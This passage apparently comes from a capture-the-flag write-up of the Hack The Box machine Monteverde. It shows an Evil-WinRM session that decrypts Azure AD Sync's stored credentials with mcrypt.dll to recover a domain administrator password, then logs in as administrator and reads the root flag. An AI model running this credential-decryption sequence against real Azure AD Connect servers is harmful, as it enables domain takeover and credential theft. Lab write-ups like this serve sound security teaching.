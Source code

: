 ```
*Evil-WinRM* PS C:\Users\mhope\Documents> add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll’
*Evil-WinRM* PS C:\Users\mhope\Documents> $km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
*Evil-WinRM* PS C:\Users\mhope\Documents> $km.LoadKeySet($entropy, $instance_id, $key_id)
*Evil-WinRM* PS C:\Users\mhope\Documents> $key = $null
*Evil-WinRM* PS C:\Users\mhope\Documents> $km.GetActiveCredentialKey([ref]$key)
*Evil-WinRM* PS C:\Users\mhope\Documents> $key2 = $null
*Evil-WinRM* PS C:\Users\mhope\Documents> $km.GetKey(1, [ref]$key2)
*Evil-WinRM* PS C:\Users\mhope\Documents> $decrypted = $null
*Evil-WinRM* PS C:\Users\mhope\Documents> $key2.DecryptBase64ToString($crypted, [ref]$decrypted)
*Evil-WinRM* PS C:\Users\mhope\Documents> $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
*Evil-WinRM* PS C:\Users\mhope\Documents> $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
*Evil-WinRM* PS C:\Users\mhope\Documents> $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
*Evil-WinRM* PS C:\Users\mhope\Documents> Write-Host ("Domain: " + $domain.Domain)
Domain: MEGABANK.LOCAL
*Evil-WinRM* PS C:\Users\mhope\Documents> Write-Host ("Username: " + $username.Username)
Username: administrator
*Evil-WinRM* PS C:\Users\mhope\Documents> Write-Host ("Password: " + $password.Password)
Password: d0m@in4dminyeah!
```

We got the administrator password now: `d0m@in4dminyeah!`

```
root@kali:~/htb/monteverde# evil-winrm -u administrator -p 'd0m@in4dminyeah!' -i 10.10.10.172

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
12909612d2[...]
```